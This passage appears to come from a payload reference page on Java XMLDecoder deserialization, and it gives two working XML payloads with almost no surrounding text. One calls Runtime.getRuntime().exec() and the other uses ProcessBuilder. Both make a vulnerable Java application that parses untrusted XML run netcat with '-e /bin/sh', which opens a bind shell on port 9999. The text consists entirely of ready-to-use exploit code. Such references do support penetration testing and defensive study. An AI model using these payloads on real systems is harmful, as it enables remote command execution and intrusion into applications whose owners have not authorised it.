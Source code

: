 #### Using Runtime().exec()

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

#### ProcessBuilder

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```

